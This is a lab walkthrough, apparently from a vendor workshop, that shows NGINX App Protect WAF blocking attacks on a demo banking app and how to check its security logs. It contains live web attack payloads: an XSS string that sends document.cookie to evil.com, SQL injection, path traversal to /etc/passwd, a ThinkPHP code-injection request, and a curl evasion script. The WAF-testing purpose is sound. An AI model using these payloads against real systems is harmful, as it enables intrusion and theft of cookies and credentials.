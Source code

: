 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.


<html><head><title>Request Rejected</title></head><body>The requested URL was rejected. Please consult with your administrator.
<br><br>Your support ID is: 2246109708976899297<br><br><a href='javascript:history.back();'>
[Go Back]</a></body></html>


[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]

. Feel free to execute any attacks you would like and observe the
results.

Congratulations on securing your application!

*Here are some optional attacks you can try (Optional)*

[NOTE]
.Note
====
Execute the attack by appending the following string:
`?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+` to the end of
the application URL.
====

* SQL Injection - 
  `GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`
* Remote File Include - 
  `GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch`
* Command Execution - 
  `GET /?hfsagrs=%2Fproc%2Fself%2Fenviron`
* HTTP Parser Attack - 
  `GET /?XDEBUG_SESSION_START=phpstorm`
* Predictable Resource Location Path Traversal - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`
* Cross-Site Scripting - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+`
* Information Leakage - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw`
* HTTP Parser Attack Forceful Browsing - 
  `GET /dana-na/auth/url_default/welcome.cgi`
* Non-browser Client, Abuse of Functionality, Server Side Code
  Injection, HTTP Parser Attack - 
  `GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`
* Cross-Site Scripting - 
  `GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n`

*and many more from the bash script below (Just for your information)*

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----

=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

. Get the local syslog server POD.
+
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----
+
. Examine the logging matching the support ID of the attack.
+
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc exec -it pod/syslog-bb47bd798-mhh64 -- cat /var/log/messages | grep 7175144470433567675
----

Where `pod/syslog-bb47bd798-mhh64` is the name of the pod and container
where the syslog server is running. `7175144470433567675` is the support ID
of the attack.

Example:

image:image13.png[image]

Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in Kubernetes and how to use the NGINX App
Protect WAF to protect your applications from attacks.
